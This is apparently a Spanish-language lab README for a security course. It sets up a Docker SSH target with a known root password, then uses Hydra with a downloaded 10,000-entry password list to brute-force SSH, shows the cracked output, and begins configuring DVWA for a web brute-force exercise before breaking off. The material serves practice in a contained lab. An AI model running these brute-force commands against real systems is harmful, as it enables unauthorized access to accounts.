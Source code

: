 About

Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment

Project Home: https://github.com/digininja/DVWA

PRIMERA PARTE
===============================================================
1
Si usa https://labs.play-with-docker.com/ se recomienda usar 

docker login -u username -p password
git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce

2
En la carpeta SSH, usamos el archivo Dockerfile, luego 

docker build -t alpine-ssh SSH/.

docker run --rm --publish=2222:22 alpine-ssh

3
Desde otra instancia podemos probar el acceso 

ssh root@host -p 2222   por ejemplo ( ssh root@192.168.0.6 -p 2222 )

Ponemos el password: computer (que se configuro en el ejemplo, especificamente en el Dockerfile)

4
Ahora en otra instancia, usamos lo que hay en la carpeta HYDRA, usamos el archivo Dockerfile, luego

git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce
docker build -t kali-hydra HYDRA/.
docker run -it kali-hydra /bin/bash 

Una vez que estamos en la shell del contenedor, descargamos un diccionario de contraseñas de 10000 posibilidades

curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt > passlist.txt

Y ahora ejecutamos Hydra para que adivine la contraseña configurada, dandole previamente el usuario root y de referencia el diccionario descargado passlist.txt. En el ejemplo consideramos que el ssh esta corriendo en la 192.168.0.6

hydra -s 2222 -l root -P passlist.txt 192.168.0.6 -t 4 -V ssh 

Debería seguir ejecutando hasta que vea algo como

...
..
.
[ATTEMPT] target 192.168.0.17 - login "root" - pass "159753" - 55 of 9999 [child 0] (0/0)
[ATTEMPT] target 192.168.0.17 - login "root" - pass "iloveyou1" - 56 of 9999 [child 2] (0/0)
[2222][ssh] host: 192.168.0.17   login: root   password: computer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-30 15:54:40

Donde concluimos que la contraseña adivinada es "computer"

Levantamos otra instancia donde ejecutamos el proyecto de DVWA

git clone https://github.com/cytopia/docker-dvwa.git
cd docker-dvwa/
make start

Una vez concluido esto debemos ver algo como

...
..
.
$ make start

+] Running 4/4
 ✔ Network docker-dvwa_dvwa-net       Created                                                                       0.0s 
 ✔ Volume "docker-dvwa_dvwa_db_data"  Created                                                                       0.0s 
 ✔ Container docker-dvwa-dvwa_web-1   Started                                                                       0.1s 
 ✔ Container docker-dvwa-dvwa_db-1    Started                                                                       0.1s 
docker-compose logs dvwa_web 2>&1 | grep "Setting"
docker-dvwa-dvwa_web-1  | Setting PHP version:        PHP 8.1.16 (cli) (built: Mar  1 2023 12:38:41) (NTS)
docker-dvwa-dvwa_web-1  | Setting MySQL hostname:     dvwa_db
docker-dvwa-dvwa_web-1  | Setting MySQL database:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL username:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL password:     ********
docker-dvwa-dvwa_web-1  | Setting Recaptcha priv key: 
docker-dvwa-dvwa_web-1  | Setting Recaptcha pub key:  
docker-dvwa-dvwa_web-1  | Setting Security level:     medium
docker-dvwa-dvwa_web-1  | Setting PHP error display:  0
docker-dvwa-dvwa_web-1  | Setting PHP IDS state:      disabled
docker-dvwa-dvwa_web-1  | Setting PHP IDS verbosity:  false

 Y el proyecto estará ejecutando en el puerto 8000, en login.php, ingresamos con usuario admin y password admin, esto nos llevará a setup.php donde configuramos el proyecto presionando el boton  "Create/Reset Database" al final de la página, al final de la página aparecerá algo como:

 ...
 ..
 .
Database has been created.
'users' table was created.
Data inserted into 'users' table.
'guestbook' table was created.
Data inserted into 'guestbook' table.
Backup file /config/config.inc.php.bak automatically created
Setup successful!
Please login.

Damos click al link de login que estará resltado en verde, en usuario colocamos admin y en password colocamos password, esto nos llevará a index.php

ahí, vamos al las opciones finales y elegimos el boton de "DVWA Security" y elegimos el nivel "Low" y damos click al boton Submit, despuès vamos al boton de Brute Force y estamos listos para iniciar el ataque con hydra, 

regresamos a la instancia donde se encuentra Hydra y 









 




